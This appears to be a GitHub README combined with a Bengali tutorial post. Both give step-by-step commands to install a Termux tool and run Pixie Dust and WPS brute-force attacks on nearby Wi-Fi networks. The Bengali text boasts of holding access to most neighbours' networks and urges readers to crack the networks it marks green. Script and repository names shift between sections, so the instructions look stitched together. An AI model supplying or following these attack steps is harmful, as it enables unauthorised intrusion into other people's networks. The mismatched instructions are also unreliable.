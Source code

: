 ## Ahsan Wifi_Hack 1
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/Ahsanullahwifi && cd Ahsanullahwifi && chmod +x ahsan.py && sudo python ahsan.py --help
```
### Next Running :
  ```bash
  sudo python Ahsanullahwifi/ahsan.py -i wlan0 -K 
  ```

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ErrorX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ErrorX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ErrorX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### আসসালামু আলাইকুম! আমরা অনেকেই শিখতে চাই Wifi হ্যাক।তো আজকে এটাই শেখাবো যে কিভাবে আপনার হাতের ফোন দিয়েই হ্যাক করবেন।

Android Mobile দিয়ে আসলেই হ্যাক সম্ভব?
হ্যাঁ সম্ভব।কিন্তু ১০০% সম্ভব কিনা তা বলতে পারবো না।
আমার মেথড দিয়ে 70-90% Wifi Hack করা সম্ভব।আমার এলাকার মোটামুটি 7/10 Wifi এর Access আমার কাছে আছে আর হ্যাঁ আমি এই মেথড দিয়েই হ্যাক করছি।

হ্যাকিং এর জন্য যা যা প্রয়োজনঃ
১.Android Phone (Rooted)
২.Termux Application
৩.Megabyte (ইনস্টল এর জন্য)

আপনার ফোনটি রুটেট নাহলে ট্রিকবিডির অন্য পোস্ট দেখে ট্রাই করতে পারেন। ওগুলো দিয়ে না হলে আমি অন্য মেথড নিয়ে পোস্ট করব।
তো সর্বপ্রথম Termux Official Apk ইনস্টল করবেন। (Play store এর টা অনেক OLD তাই চেষ্টা করবেন F-DROID থেকে ডাউনলোড করার।

Installation:
$ pkg update && pkg upgrade

$ pkg install git python

$ git clone https://github.com/Mahfuz-THBD/Wifi_Hack_Installer

$ cd Wifi_Hack_Installer

$ python Installer.py

$ apt update && apt upgrade

$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/Mahfuz-THBD/Wifi_Hack

$ cd Wifi_Hack

$ ls

এরপর Wifi অফ করে

$ sudo python birihack.py -i wlan0 -K

আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
